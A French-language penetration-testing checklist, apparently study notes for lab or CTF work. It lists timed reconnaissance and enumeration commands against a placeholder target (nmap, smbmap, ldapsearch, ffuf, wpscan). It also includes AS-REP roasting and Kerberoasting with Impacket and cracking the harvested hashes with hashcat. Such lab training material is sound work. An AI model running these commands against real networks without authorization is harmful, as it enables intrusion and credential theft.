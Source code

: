 #### 1. Reconnaissance initiale (5 min)
- [ ] Scan rapide des ports : `nmap -sS --min-rate 1000 -p- 10.10.10.10`
- [ ] Identification des services : `nmap -sC -sV -p [ports_ouverts] 10.10.10.10`
- [ ] Vérification des ports UDP courants : `nmap -sU -p 53,69,111,123,161,500 10.10.10.10`

#### 2. Énumération SMB (5 min)
- [ ] Vérification des partages anonymes : `smbmap -H 10.10.10.10 -u anonymous`
- [ ] Exploration des partages accessibles : `smbclient -L //10.10.10.10 -N`
- [ ] Recherche de fichiers sensibles : `smbmap -H 10.10.10.10 -u anonymous -R [partage] -A .txt,.pdf,.doc,.conf`

#### 3. Énumération LDAP/AD (10 min)
- [ ] Recherche anonyme : `ldapsearch -x -H ldap://10.10.10.10 -b "dc=exemple,dc=com"`
- [ ] Énumération d'utilisateurs : `enum4linux-ng -U 10.10.10.10`
- [ ] Vérification AS-REP Roasting : `GetNPUsers.py exemple.com/ -usersfile users.txt -format hashcat`
- [ ] Vérification Kerberoasting (si identifiants disponibles) : `GetUserSPNs.py exemple.com/user:password -request`

#### 4. Énumération Web (10 min)
- [ ] Identification des technologies : `whatweb http://10.10.10.10`
- [ ] Découverte de contenu : `ffuf -u http://10.10.10.10/FUZZ -w /usr/share/wordlists/dirb/common.txt`
- [ ] Vérification de CMS : `wpscan --url http://10.10.10.10` (si WordPress détecté)
- [ ] Recherche de vulnérabilités : `nikto -h http://10.10.10.10`

#### 5. Autres services (5 min)
- [ ] SNMP : `snmpwalk -v 2c -c public 10.10.10.10`
- [ ] FTP anonyme : `ftp 10.10.10.10` (utilisateur: anonymous)
- [ ] SSH : Vérification de la bannière et version (`nc -nv 10.10.10.10 22`)

### Scénario express 30 min : Trouver compte exposé sur serveur AD + ancien WordPress

**Contexte** : Vous disposez de 30 minutes pour identifier un compte utilisateur vulnérable sur un serveur Active Directory et trouver des vulnérabilités sur un WordPress obsolète hébergé sur le même réseau.

**Cible** : Réseau 10.10.10.0/24 avec serveur AD et serveur web

#### Étape 1 : Découverte des hôtes (5 min)
```bash
# Scan rapide du réseau
nmap -sn 10.10.10.0/24
# Identification du contrôleur de domaine (ports 53, 88, 389)
nmap -p 53,88,389 --open 10.10.10.0/24
# Identification du serveur web (ports 80, 443)
nmap -p 80,443 --open 10.10.10.0/24
```

#### Étape 2 : Énumération du contrôleur de domaine (10 min)
```bash
# Supposons que le DC est 10.10.10.10
# Récupération du nom de domaine
nmap -p 389 --script ldap-rootdse 10.10.10.10

# Énumération des utilisateurs
enum4linux-ng -U 10.10.10.10

# Vérification des utilisateurs sans pré-authentification Kerberos
GetNPUsers.py exemple.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt

# Si un hash est récupéré, tentative de crack avec hashcat
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --force
```